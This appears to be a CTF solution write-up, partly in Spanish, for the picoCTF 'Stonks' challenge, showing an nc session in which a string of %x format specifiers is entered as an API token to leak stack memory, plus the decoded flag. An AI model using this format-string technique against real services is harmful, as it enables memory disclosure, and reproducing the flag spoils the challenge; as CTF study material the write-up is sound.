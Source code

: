 # Retos PicoCTF


## Objetivo 

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`
## Solución 

```
                                                                             
┌──(kali㉿kali)-[~/picoCTF/retos-resueltos/binexp/stonks]
└─$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8b503f0804b00080489c3f7f5cd80ffffffff18b4e160f7f6a110f7f5cdc708b4f18038b503d08b503f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ffb8007df7f97af8f7f6a44044bef30010f7df9ce9f7f6b0c0f7f5c5c0f7f5c000ffb88418f7dea68df7f5c5c08048ecaffb884240f7f7ef09804b000f7f5c000f7f5ce20ffb88458f7f84d50f7f5d89044bef300f7f5c000804b000ffb884588048c868b4e160ffb88444ffb884588048be9f7f5c3fc0ffb8850cffb88504118b4e16044bef300ffb8847000f7d9ffa1f7f5c000f7f5c0000
Portfolio as of Wed Nov 13 02:45:13 UTC 2024


3 shares of TIXN
34 shares of KZ
69 shares of E
24 shares of TFG
34 shares of OWO
410 shares of HPTP
655 shares of MO
667 shares of RSZ
Goodbye!
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}

from hex 
swap endianness en cyberchef

```

## Notas adicionales 

## Referencias 
